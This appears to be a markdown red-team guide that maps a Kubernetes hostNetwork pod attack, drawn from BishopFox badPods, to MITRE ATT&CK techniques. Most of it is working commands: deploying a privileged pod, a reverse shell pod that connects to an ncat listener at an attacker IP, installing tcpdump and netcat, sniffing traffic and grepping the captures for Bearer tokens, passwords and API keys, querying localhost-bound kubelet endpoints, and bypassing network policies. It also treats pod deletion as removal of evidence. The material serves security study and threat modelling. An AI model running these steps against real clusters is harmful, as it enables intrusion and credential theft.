

# MITRE ATT&CK Mapping: hostNetwork Pod

---

## Attack Flow Overview



---

## Phase 1: Pod Creation & Access

### Step 1.1: Deploy pod with hostNetwork privilege

**Command:**
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Deploy container with hostNetwork privilege to access host's network interfaces and bypass network policies

**Pod Configuration:**
```yaml
spec:
  hostNetwork: true
```

---

### Step 1.2: Exec into the pod

**Command:**
```bash
kubectl exec -it hostnetwork-exec-pod -- bash
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Execute bash session inside the container with host network access

---

### Step 1.3: Alternative - Reverse shell method

**Commands:**
```bash
# Step 1: Set up listener
ncat --ssl -vlp 3116

# Step 2: Create pod with reverse shell
HOST=\"10.0.0.1\" PORT=\"3116\" envsubst < ./manifests/hostnetwork/pod/hostnetwork-revshell-pod.yaml | kubectl apply -f -

# Step 3: Catch the shell
# Connection received on 10.0.0.162 42035
```

**MITRE Techniques:**
- **T1095** - Non-Application Layer Protocol
  - Encrypted reverse shell connection using ncat --ssl for command and control

---

## Phase 2: Post Exploitation

### Step 2.1: Install network sniffing tools

**Command:**
```bash
apt update && apt -y install tcpdump net-tools netcat
```

**MITRE Techniques:**
- **T1105** - Ingress Tool Transfer
  - Install tcpdump and networking utilities for traffic sniffing and reconnaissance

---

### Step 2.2: Enumerate network interfaces and services

**Commands:**
```bash
# Check if kubelet read port is accessible
nc -zv 10.0.0.162 10255
nc -zv 172.17.0.1 10255

# List network interfaces
ifconfig -a
ip addr show
```

**MITRE Techniques:**
- **T1046** - Network Service Discovery
  - Scan for accessible network services on host interfaces
- **T1590.005** - Gather Victim Network Information: IP Addresses
  - Enumerate host network interfaces and IP addresses

---

### Step 2.3: Sniff network traffic for credentials

**Command:**
```bash
# Capture traffic on kubelet read-only port
tcpdump -ni eth0 -s0 -w kubelet-ro.cap port 10255

# Capture traffic on common application ports
tcpdump -ni eth0 -s0 -w app-traffic.cap port 80 or port 8080 or port 3000
```

**MITRE Techniques:**
- **T1040** - Network Sniffing
  - Use tcpdump to capture unencrypted network traffic containing credentials
- **T1557** - Adversary-in-the-Middle
  - Intercept network communications on the host's network interfaces

> [!WARNING]
> Sniffing on high-traffic interfaces can cause packet drops. Always use `-n` flag to disable name resolution and capture specific ports to minimize impact.

---

### Step 2.4: Extract credentials from captured traffic

**Commands:**
```bash
# Read captured packets
tcpdump -r kubelet-ro.cap -s0 -A

# Search for Bearer tokens
tcpdump -r kubelet-ro.cap -s0 -A | grep Bearer

# Search for passwords and API keys
tcpdump -r app-traffic.cap -s0 -A | grep -i password
tcpdump -r app-traffic.cap -s0 -A | grep -i api_key
```

**MITRE Techniques:**
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Extract credentials from pcap files captured from network traffic
- **T1110** - Brute Force (potential follow-up)
  - Use captured credentials for authentication to other services

---

### Step 2.5: Access localhost-bound services

**Commands:**
```bash
# Access kubelet metrics endpoint
curl http://localhost:10255/metrics
curl http://localhost:10255/pods

# Access other local services
curl http://localhost:1234/metrics
curl http://localhost:8080/
```

**MITRE Techniques:**
- **T1087** - Account Discovery
  - Enumerate accounts and service information from localhost-bound services
- **T1613** - Container and Resource Discovery
  - Query kubelet API for pod and container information

---

### Step 2.6: Bypass network policies

**Explanation:**
When a restrictive network policy is applied to the namespace, deploying a pod with `hostNetwork=true` bypasses the restrictions because the pod is bound to the host's network interfaces, not the pod network.

**Commands:**
```bash
# From hostNetwork pod, access services blocked by network policy
curl http://restricted-service.other-namespace.svc.cluster.local:8080

# Access external services blocked by egress policy
curl http://external-api.example.com
```

**MITRE Techniques:**
- **T1562.007** - Impair Defenses: Disable or Modify Cloud Firewall
  - Bypass Kubernetes network policies by using host network namespace
- **T1021** - Remote Services
  - Access services that are restricted by network policies in other namespaces

---

## Phase 3: General Pod Attacks

### Step 3.1: Standard pod exploitation techniques

**Procedures:**

Even with only `hostNetwork=true`, standard pod attacks apply:

- Access cloud metadata service
- Query kubelet/kube-apiserver with anonymous-auth
- Hunt for vulnerable services in cluster
- Exploit known Kubernetes CVEs

**MITRE Techniques:**
- **T1552.005** - Unsecured Credentials: Cloud Instance Metadata API
  - Query cloud metadata endpoints for IAM credentials

**Reference:** See [nothing-allowed/README.md](../nothing-allowed) for details

---

## Cleanup

### Delete the pod

**Command:**
```bash
kubectl delete pod hostnetwork-exec-pod
# Or using manifest
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
```

**MITRE Techniques:**
- **T1070.004** - Indicator Removal: File Deletion
  - Remove malicious pod to clean up evidence of exploitation

---

## Summary

### Key Attack Vectors

1. **Network Sniffing** - Primary attack vector for capturing unencrypted credentials in transit
2. **Localhost Access** - Access services bound to 127.0.0.1 that are blocked from pod network
3. **Network Policy Bypass** - Evade namespace-level network restrictions

### Configuration Details

```yaml
spec:
  hostNetwork: true
```

This single privilege grants:
- Access to all host network interfaces
- Ability to sniff traffic on any interface
- Access to localhost-bound services (kubelet, metrics endpoints, etc.)
- Bypass of Kubernetes network policies
- Same network namespace as the host
